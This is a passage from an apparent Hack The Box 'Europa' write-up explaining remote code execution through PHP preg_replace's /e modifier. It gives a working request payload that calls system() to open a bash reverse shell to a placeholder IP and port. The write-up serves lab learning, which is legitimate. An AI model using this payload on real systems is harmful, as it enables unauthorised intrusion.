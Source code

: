 ![](/assets/images/htb-writeup-europa/regex.png)

It seems we are using Regex expressions to modify the IP address, let's take about of Regex to do Remote Execution of Code(RCE). In [this article](https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace) teaches us how to exploit the regex expressions.

Let's modify the data of the request and let's add that:
```json
pattern=/ip_address/e&ipaddress=system('bash+-c+"bash+-i+>%26+/dev/tcp/{IP}/{Port}+0>%261"')&text=/ip_address/ 
```
We need to substitute `{IP}` with our IP and the `{Port}` with the port we are going to here.
